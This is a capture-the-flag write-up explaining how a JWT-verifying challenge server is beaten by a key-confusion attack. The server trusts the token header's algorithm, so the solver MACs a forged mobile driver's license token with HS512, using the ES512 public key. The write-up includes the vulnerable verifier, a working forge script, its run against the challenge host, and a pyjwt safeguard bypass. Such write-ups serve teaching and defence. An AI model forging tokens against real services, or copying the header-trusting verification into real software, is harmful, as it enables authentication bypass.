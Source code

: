 # Your papers, please &mdash; Solution

In this challenge, the remote server is expecting to receive a [JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token), specifically one conforming to a [ISO-18013-5 mobile driver's license](https://en.wikipedia.org/wiki/Mobile_driver%27s_license) standard. If the JWT is a valid, cryptographically authenticated, unexpired mobile driver's license, we are given the flag. We are also given an example JWT, however with an expiry date in the past.

At the first glance, the verification is solid --- a public key is embedded in the binary, and the signature in the JWT is verified against the public key. The problem is that the signature verification algorithm used depends on the JWT header.
```python
PUBLIC_KEY = u'''-----BEGIN PUBLIC KEY-----
MIGbMBAGByqGSM49AgEGBSuBBAAjA4GGAAQBGOtycGkAMpTEDsjFykEywLecIdCX
1QIShxmJB0qJj9K2yFNwJj/eRR6yzIZcHJPZWzQU6Mad62y1MsJ8uOgdZ2sBmkS0
HJtT4FZq/EQbtkHeahsDnSLbFpPfoN/t8hmKrVmDzDRGe3PNl7OQVuzoY2TVSxVK
IKmpZ9Pw9/5HOzSmOxs=-----END PUBLIC KEY-----
'''

def decode(token):
    signing_input, crypto_segment = token.rsplit(".", 1)
    header_segment, payload_segment = signing_input.split(".", 1)
    header_data = base64.urlsafe_b64decode(header_segment)
    header = json.loads(header_data)
    alg = header["alg"]
    return jwt.decode(token, algorithms=[alg], key=PUBLIC_KEY)


def main():
    signal.signal(signal.SIGALRM, handler)
    signal.alarm(300)

    myprint("Your papers, please.")
    token = input()
    try:
        mdl = decode(token)
        assert mdl["docType"] == "iso.org.18013.5.1.mDL"
        family_name = mdl["family_name"]
        given_name = mdl["given_name"]
        expiry_date = datetime.datetime.strptime(mdl["expiry_date"], "%Y-%m-%dT%H:%M:%S.%f")
    except Exception as e:
        myprint("Your papers are not in order!")
        exit(0)
    myprint("Hello {} {}!".format(given_name, family_name))
    delta = expiry_date - datetime.datetime.now()
    if delta <= datetime.timedelta(0):
        myprint("Your papers expired {} ago!".format(humanize.naturaldelta(delta)))
        exit(0)

    flag = open("flag.txt", "r").read().strip()
    myprint("Your papers are in order, here is your flag: {}".format(flag))
    exit(0)
```

Let's look at the token up close. JWT consists of three parts, header, payload and the signature. Decoding the example JWT we are given, yields the following header and payload.
```json
{
  "alg": "ES512",
  "typ": "JWT"
}
{

  "version": "1.0",
  "docType": "iso.org.18013.5.1.mDL",
  "family_name": "TURNER",
  "given_name": "SUSAN",
  "birth_date": "1998-08-28",
  "issue_date": "2018-01-15T10:00:00.00",
  "expiry_date": "2022-08-27T12:00:00.00",
  "issuing_country": "US",
  "issuing_authority": "CO",
  "document_number": "542426814",
  "driving_privileges": [
    {
      "codes": [
        {
          "code": "D"
        }
      ],
      "vehicle_category_code": "D",
      "issue_date": "2019-01-01",
      "expiry_date": "2027-01-01"
    }
  ],
  "un_distinguishing_sign": "USA"
}
```

In turns out that [JWT standard](https://www.rfc-editor.org/rfc/rfc7518.txt), besides digital signatures, allows using [MACs](https://en.wikipedia.org/wiki/Message_authentication_code) to authenticate tokens.

MACs are symmetric primitives --- the same key is used for generating the tag and for verifying it. Hence, we solve this challenge by launching a [key confusion attack](https://nvd.nist.gov/vuln/detail/CVE-2016-5431) --- we construct the required payload, specify in the header that a MAC is used for verifying authenticity, and MAC the token using the bytes of the public key as a symmetric MAC key.

```python
#!/usr/bin/env python3

import jwt

public_key = u'''-----BEGIN PUBLIC KEY-----
MIGbMBAGByqGSM49AgEGBSuBBAAjA4GGAAQBGOtycGkAMpTEDsjFykEywLecIdCX
1QIShxmJB0qJj9K2yFNwJj/eRR6yzIZcHJPZWzQU6Mad62y1MsJ8uOgdZ2sBmkS0
HJtT4FZq/EQbtkHeahsDnSLbFpPfoN/t8hmKrVmDzDRGe3PNl7OQVuzoY2TVSxVK
IKmpZ9Pw9/5HOzSmOxs=-----END PUBLIC KEY-----
'''

token = open("mdl.txt", "rt").read()

credential = jwt.decode(token, key=public_key, algorithms=["ES512"])
credential["expiry_date"] = "2025-08-27T12:00:00.00"
fake_token = jwt.encode(credential, algorithm="HS512", key=public_key)
print(fake_token)
```

Presenting the MACed JWT to the service, wins us the flag.
```bash
$ python3 solve.py | nc 0.cloud.chals.io 16356
Your papers, please.
Hello SUSAN TURNER!
Your papers are in order, here is your flag: TBTL{1n_H34d3rS_W3_Tru$7}
```

Note that pyjwt library authors actively try to [prevent this attack](https://github.com/jpadilla/pyjwt/blob/ab8176abe21e550dbc1c9a6bb7e78ad80853bfb1/jwt/algorithms.py#L258) by checking if a MAC algorithm is used with something that looks like an asymmetric public key. However, this challenge bypasses their [regex-based public key detection logic](https://github.com/jpadilla/pyjwt/blob/ab8176abe21e550dbc1c9a6bb7e78ad80853bfb1/jwt/utils.py#L119) by removing a newline character from the penultimate line of the public key string.
